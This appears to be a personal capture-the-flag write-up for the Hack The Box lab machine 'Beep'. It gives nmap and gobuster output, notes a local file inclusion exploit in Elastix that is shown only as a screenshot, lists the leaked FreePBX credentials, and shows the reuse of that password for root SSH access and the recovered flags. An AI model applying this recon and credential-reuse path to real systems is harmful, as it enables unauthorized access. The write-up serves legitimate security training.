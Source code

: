 #easy

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Beep
**IP** : 10.129.229.183
**Objectives :** Get user and root flags
**OS :** #Linux

##### **Conclusion**
**Time :** 2h19
	**Start :** 04.04.2025 / 18:39
	**Break at/to :** 04.04.2025 / 19:17 | 06.04.2025 / 19:30
	**Finish :** 06.04.2025 / 20:51
**Satisfaction :**  8/10 Because I start with the adventure mode but I use the guided mode for a hint.
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
nmap -A -v -p- 10.129.229.183

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.229.183/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            853/udp   status
|_  100024  1            856/tcp   status
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2025-04-04T16:45:04+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
856/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: F3337C71F21F2D6F478E118940F48988
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```


We make a scan with #gobuster 

```BASH
gobuster dir -u https://10.129.229.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,htm,js,txt,log,config,logs,conf,py,db -k
```
-k is for authorizing the expired SSL certificate

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htm                 (Status: 403) [Size: 286]
/.html                (Status: 403) [Size: 287]
/index.php            (Status: 200) [Size: 1785]
/images               (Status: 301) [Size: 318] [--> https://10.129.229.183/images/]
/help                 (Status: 301) [Size: 316] [--> https://10.129.229.183/help/]
/register.php         (Status: 200) [Size: 1785]
/themes               (Status: 301) [Size: 318] [--> https://10.129.229.183/themes/]
/modules              (Status: 301) [Size: 319] [--> https://10.129.229.183/modules/]
/mail                 (Status: 301) [Size: 316] [--> https://10.129.229.183/mail/]
/admin                (Status: 301) [Size: 317] [--> https://10.129.229.183/admin/]
/static               (Status: 301) [Size: 318] [--> https://10.129.229.183/static/]
/lang                 (Status: 301) [Size: 316] [--> https://10.129.229.183/lang/]
/config.php           (Status: 200) [Size: 1785]
/robots.txt           (Status: 200) [Size: 28]
/var                  (Status: 301) [Size: 315] [--> https://10.129.229.183/var/]
```

When I enter /admin I got an alert for login and when I click cancel Its sen me there :
![[Pasted image 20250404190403.png]]

We can see that we are on FreePBX 2.8.1.4
We find the CVE-2010-3490
The CVE is not working.

So we start to find if some vulnerabilities with elastix exist and we found this :
![[Pasted image 20250406202904.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

So let's try the #LFI exploit we find with Elatix.

![[Pasted image 20250406203046.png]]

It's working and we have the following informations :

-  DB :
    
    - `AMPDBUSER=asteriskuser`
        
    - `AMPDBPASS=jEhdIekWmdjE`
        
-  **FreePBX** :
    
    - `AMPMGRUSER=admin`
        
    - `AMPMGRPASS=jEhdIekWmdjE`
        
    - `ARI_ADMIN_USERNAME=admin`

![[Pasted image 20250406203824.png]]

Now we want to connect with ssh :

`ssh admin@10.129.229.183`

Output : `Unable to negotiate with 10.129.229.183 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1`


So we use :

`ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa admin@10.129.229.183`

Output : ```admin@10.129.229.183's password: 
Permission denied, please try again.
admin@10.129.229.183's password: 
Permission denied, please try again.
admin@10.129.229.183's password: 
admin@10.129.229.183: Permission denied (publickey,gssapi-with-mic,password).```

So we use : `ssh -oKexAlgorithms=+diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.129.229.183`

And it's work.

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
[root@beep ~]# ls
anaconda-ks.cfg  elastix-pr-2.2-1.i386.rpm  install.log  install.log.syslog  postnochroot  root.txt  webmin-1.570-1.noarch.rpm
[root@beep ~]# cat root.txt 
9d8adf4c79a142b7d6eb73b1fc6f40df
[root@beep ~]# pwd
/root
[root@beep ~]# cd /home/
[root@beep home]# ls
fanis  spamfilter
[root@beep home]# cd fanis/
[root@beep fanis]# ls
user.txt
[root@beep fanis]# cd user.txt 
-bash: cd: user.txt: Not a directory
[root@beep fanis]# cat user.txt 
81f8ae88f828a4b420de617b968d4688
```

